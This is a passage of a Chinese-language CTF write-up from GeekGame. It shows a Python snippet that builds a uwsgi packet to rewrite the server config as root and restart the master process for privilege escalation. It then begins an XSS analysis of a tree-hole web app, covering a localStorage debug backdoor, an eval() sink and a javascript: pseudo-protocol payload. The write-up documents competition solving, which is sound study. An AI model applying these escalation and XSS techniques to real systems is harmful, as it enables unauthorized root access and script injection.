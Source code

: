 ```python
ini = """[uwsgi]
socket = :3031
chdir = /usr/src/ufctf
manage-script-name = true
mount = /=app:app
master = true
uid = root
gid = root
workers = 2
buffer-size = 65535
enable-threads = true
pidfile = /tmp/uwsgi.pid"""

#packet = generate_packet(f"echo '{ini}' > /tmp/uwsgi-ctf.ini")
packet = generate_packet("ps aux > /tmp/taoky")
#packet = generate_packet("kill -INT 52")
with open("payload", "wb") as f:
    f.write(packet)
```

先写入到 `/tmp/uwsgi-ctf.ini`，然后 `ps aux` 得到 uwsgi 主进程的进程号，然后对着这个进程 `kill -INT`（`kill -9` 好像会把整个服务搞挂），卡过一会之后我们就变身 root 了！（可以在 supervisor.log 里验证这一点）

既然成为了 root，读取 flag 什么的自然不在话下。

## Q小树洞的一大步

（第二阶段完成）

> 带着这些问题（指能不能 XSS），我们来审视一下Q小树洞。我们不得不面对一个非常尴尬的事实，那就是，每个人（指所有比赛选手）都不得不面对这些问题。Q小树洞因何而发生（XSS）？本人也是经过了深思熟虑，在每个日日夜夜思考这个问题。在这种困难的抉择下，本人思来想去，寝食难安（指因为玩 geekgame 晚上不睡觉）。

因为菜，所以第一阶段不想去逆向 webpack 生成的那堆东西（第一阶段先把壁纸换成[露营天下第一](https://prob15-qkuhole.geekgame.pku.edu.cn/hole/static/bg/yurucamp.jpg)，然后只发现了 URL `#` 之后可以加搜索词，以及 [pkuhelper 版的 P 大树洞](https://pkuhelper.pku.edu.cn/hole/)所谓的「GPL 协议开源」近乎是假的，指向的是一个 2020 年初已经 archive 的版本，与实际运行的版本差别不小，想通过检查 commit 记录来找安全更新的计划落空了）。第二阶段拿到了源代码，所以题目好做了很多。

先把 React 源代码全部下下来（通过浏览器检查元素），过一遍发现了一个「后门」和两个可能的问题点：

- `//setflag key=value` 可以修改 localStorage 中 key 项内容为 value。
- 既然可以任意修改 localStorage 的内容，那么和 localStorage 有关的点都可能出问题。最有可能出问题的是：
  - `APPSWITCHER_ITEMS`: 有个危险的 `eval()`
  - `hole_config`: 可以加载任意配置，改背景图的部分说不定可以用 `javascript:` 伪协议？

PS: `//setflag` 功能看起来应该是为了方便开发者调试用的，我这里称之为「后门」仅仅是因为叫起来方便，没有恶意。

为了确保环境一致，手动安装 selenium 和最新的 Chromium webdriver。**如果直接用自己的浏览器环境测试，因为首先不同浏览器的策略细节不同、可能会受到扩展干扰，而且用户设置（特别是关于 cookie 的）可能和 XSS bot 的不同，会造成其实可以跑的 payload 本地跑不了的问题**。

首先试试伪协议，尽管网络上很多人写 XSS 的文章都会把它列成一种 XSS 的「方法」，像这样：

```html
<img src="javascript:alert('这样就能 XSS 了，很棒吧！')" />
```

对应 Q 小树洞的代码，类似于这样：
